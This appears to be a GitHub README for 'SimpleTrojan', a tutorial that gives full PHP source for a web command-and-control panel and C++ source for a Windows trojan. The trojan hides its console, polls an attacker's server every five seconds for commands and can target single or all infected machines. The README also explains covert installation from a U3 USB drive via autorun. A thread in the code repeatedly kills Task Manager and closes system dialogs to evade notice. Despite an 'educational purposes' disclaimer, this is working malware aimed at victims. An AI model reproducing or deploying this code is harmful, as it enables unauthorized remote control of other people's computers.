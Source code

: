 # SimpleTrojan
This is made for educational purposes, I am not responsible for you acts. How to inject a Trojan Virus into a victim's computer !

### Information

Hello everyone, I decided today to stop my C# project to make this one, a simple Trojan Virus. The trojan downloads 3 textfiles each 5 seconds, the textfiles contain a number, and based on that number it executes commands.

Before we start with the C++ code, I have a very easy way to get the trojan on the victim's computer. You just need a U3-enabled USB drive, USB access to the victim's computer, and the Universal Customizer. Delete the U3CUSTOM.ISO and create your own U3CUSTOM.ISO with these files included. (the files will be in the repository)

### Second Step

Then, create a folder "trojan", and we'll later put the trojan files in there. You also need to create a file "Trojan.lnk", it will be copied to the startup folder. Also place all the neccessary DLL's in there for the program to run, for example urlmon.dll and wininet.dll. 

Then create an ISO and run the U3 Updater to put the trojan on your U3 drive. Now it will automatically run go.vbs without any notice once you plug in your U3 drive in any Windows XP computer (It will not work on Vista or 7, they have autorun disabled).

And also, before we start creating our program itself, we need a way to control it. As I said, the trojan downloads 3 files. Let's make these files on our web site/server. Create index.html, assign.html and target.html and don't put anything in there. Then we create a PHP file (edit.php) that is able to edit the html files. Why just PHP and not some normal application? Because this way we can control the trojan from anywhere by just going to yourwebsitehere.com/trojan/edit.php. You can even control computers with your mobile phone if you have mobile internet or Wifi.

[PHP]
``<br><HTML><br><HEAD><br><TITLE>Winrat.exe Control Panel</TITLE><br><META HTTP-EQUIV="CACHE-CONTROL" CONTENT="NO-CACHE"><br></HEAD><br><BODY><br><br><?php<br>if (isset($_POST['submit'])) {<br><br>$myFile = "index.html";<br>$fh = fopen($myFile, 'w') or die("can't open file");<br>$stringData = stripslashes($_POST['option']);<br>fwrite($fh, $stringData);<br>fclose($fh);<br><br>$myFile2 = "target.html";<br>$fh = fopen($myFile2, 'w') or die("can't open file");<br>$stringData = stripslashes($_POST['target']);<br>fwrite($fh, $stringData);<br>fclose($fh);<br>}<br><br>if (isset($_POST['clear'])) {<br><br>$myFile = "index.html";<br>$fh = fopen($myFile, 'w') or die("can't open file");<br>$stringData = 0;<br>fwrite($fh, $stringData);<br>fclose($fh);<br>}<br><br>if (isset($_POST['assigncomputer'])) {<br><br>$myFile = "assign.html";<br>$fh = fopen($myFile, 'w') or die("can't open file");<br>$stringData = stripslashes($_POST['assign']);<br>fwrite($fh, $stringData);<br>fclose($fh);<br>}<br>?><br><br><div id="wrapper"><br><form action="" method="post"><br><textarea name="target" style="width: 230px; height: 25px; margin-bottom: 5px; font-size: 20px"><br><?php<br>$myFile = "target.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?></textarea><br><br /><br><textarea name="option" style="width: 230px; height: 60px; margin-bottom: 5px; font-size: 20px"><br><?php<br>$myFile = "index.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?></textarea><br><br /><br><input type="submit" name="submit" value="Edit" style="width: 150px; height: 40px" /><br><input type="submit" name="clear" value="Clear" style="width: 65px; height: 40px" /><br></form><br><br><?php<br>echo 'Current hack activated: <b>';<br><br>$myFile = "index.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?><br></b><br><br /><br \><b>1.</b> Just some<br><br /><b>2.</b> HTML code<br><br /><b>3.</b> to remember<br><br /><b>4.</b> what commands<br><br /><b>5.</b> you can use.<br><br /><br /><br><form action="" method="post"><br><textarea name="assign" style="width: 190px; height: 30px; margin-bottom: 2px; font-size: 20px"><br><?php<br>$myFile = "assign.html";<br>$fh = fopen($myFile, 'r');<br>$theData = fgets($fh);<br>fclose($fh);<br>echo $theData;<br>?></textarea> <br><br /><br><input type="submit" name="assigncomputer" value="Assign" style="width: 190px; height: 25px;" /><br></form><br><br></div><br>``


Now we start with creating our winrat.exe, the trojan itself. Here's the source code:

``#include <windows.h>
#pragma comment(lib, "Winmm.lib")
#include <urlmon.h> 
#pragma comment(lib, "urlmon.lib")
#include <iostream>
#include <fstream>
#include <WinInet.h>
#pragma comment(lib, "WinInet.lib")
#include <ShlObj.h>
using namespace std;
 
int Option, Assign, Target;
DWORD WINAPI LowProfile(LPVOID);
DWORD WINAPI Option1(LPVOID);
DWORD WINAPI Option2(LPVOID);
DWORD WINAPI Option3(LPVOID);
DWORD WINAPI Option4(LPVOID);
DWORD WINAPI Option5(LPVOID);
// Add more lines of Option6, Option7, etc. to create more commands.
HWND TaskMgr, SysError, WMP, Disk1, Disk2, Disk3, Disk4, Autoplay, VBS;
 
int main() {
// Hide Console Window
FreeConsole();
 
CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&LowProfile, 0, 0, NULL);
 
// Checks if assign.txt exists. If it doesn't (only first run), download assign.txt. This gives the computer an ID number. You can change assign.txt in the PHP file BEFORE you plug in the U3 drive.
FILE *istream;
if ( (istream = fopen ( "C:\\Windows\\trojan\\assign.txt", "r" ) ) == NULL ) {
    URLDownloadToFile(NULL, L"http://www.yourwebsitehere.com/trojan/assign.html", L"c:\\Windows\\trojan\\assign.txt", NULL, NULL);
} else {
}
 
// Store Assign.txt in a variable
ifstream inAssign;
inAssign.clear();
inAssign.open("c:\\Windows\\trojan\\assign.txt");
inAssign >> Assign;
inAssign.close();
inAssign.clear();
 
// Start the main loop that is downloading the textfile each 5 seconds.
while(1) {
 
    // Download Option & Target
    remove("c:\\Windows\\trojan\\option.txt");
    remove("c:\\Windows\\trojan\\target.txt");
    DeleteUrlCacheEntry(L"http://www.yourwebsitehere.com/trojan/");
    DeleteUrlCacheEntry(L"http://www.yourwebsitehere.com/trojan/target.html");
    Sleep(100);
    URLDownloadToFile(NULL, L"http://www.yourwebsitehere.com/trojan/", L"c:\\Windows\\trojan\\option.txt", NULL, NULL);
    URLDownloadToFile(NULL, L"http://www.yourwebsitehere.com/trojan/target.html", L"c:\\Windows\\trojan\\target.txt", NULL, NULL);
 
    // Read Option
    ifstream inFile;
    inFile.clear();
    inFile.open("c:\\Windows\\trojan\\option.txt");
    inFile >> Option;
    inFile.close();
    inFile.clear();
 
    // Read Target
    ifstream inTarget;
    inTarget.clear();
    inTarget.open("c:\\Windows\\trojan\\target.txt");
    inTarget >> Target;
    inTarget.close();
    inTarget.clear();
 
    // If Target is equal to assign (so you can target a single computer) or if Target is zero (target all computers with your trojan)
    if(Target == Assign || Target == 0) {
        if(Option == 1) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option1, 0, 0, NULL); }
        else if(Option == 2) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option2, 0, 0, NULL); }
        else if(Option == 3) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option3, 0, 0, NULL); }
        else if(Option == 4) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option4, 0, 0, NULL); }
        else if(Option == 5) { CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)&Option5, 0, 0, NULL); }
        // Add more of these lines for more commands
    }
    Sleep(5000);
    }
}
 
// Our LowProfile Thread. Hides all errors and things that may popup while inserting your U3 drive.
DWORD WINAPI LowProfile(LPVOID) {
    while(1) {
        // Obvious
        TaskMgr = FindWindow(NULL,L"Windows Task Manager");
        // May popup because of new hardware installation (U3)
        SysError = FindWindow(NULL,L"System Settings Change");
        // Windows Media Player may popup. Rarely happens, but had this once at a school computer.
        WMP = FindWindow(NULL,L"Windows Media Player");
        // The Removable Disk part of the U3 Drive can open automatically.
        Disk1 = FindWindow(NULL,L"(D:) Removable Disk");
        Disk2 = FindWindow(NULL,L"(E:) Removable Disk");
        Disk3 = FindWindow(NULL,L"(F:) Removable Disk");
        Disk4 = FindWindow(NULL,L"(G:) Removable Disk");
        // Autoplay
        Autoplay = FindWindow(NULL,L"Autoplay");
        // Errors caused by our VBScript go.vbs
        VBS = FindWindow(NULL,L"Windows Script Host");
        if( TaskMgr != NULL) {
            SetWindowText( TaskMgr,L"DIE!!!! =O");
            Sleep(500);
            PostMessage( TaskMgr, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( SysError != NULL) {
            PostMessage( SysError, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( WMP != NULL) {
            Sleep(1000);
            PostMessage( WMP, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk1 != NULL) {
            PostMessage( Disk1, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk2 != NULL) {
            PostMessage( Disk2, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk3 != NULL) {
            PostMessage( Disk3, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Disk4 != NULL) {
            PostMessage( Disk4, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( Autoplay != NULL) {
            PostMessage( Autoplay, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        if( VBS != NULL) {
            PostMessage( VBS, WM_CLOSE, (LPARAM)0, (WPARAM)0);
        }
        Sleep(500);
    }
}
 
//
// Here we start with our commands. Option1, Option2, Option3, etc.
// Don't forget to also define and create a process for these Options if you want to create more.
// Have Fun =D
//
 
DWORD WINAPI Option1(LPVOID) { // 1
    return 0;
}
 
DWORD WINAPI Option2(LPVOID) { // 2
    return 0;
}
 
DWORD WINAPI Option3(LPVOID) { // 3
    return 0;
}
 
DWORD WINAPI Option4(LPVOID) { // 4
    return 0;
}
 
DWORD WINAPI Option5(LPVOID) { // 5
    return 0;
}``
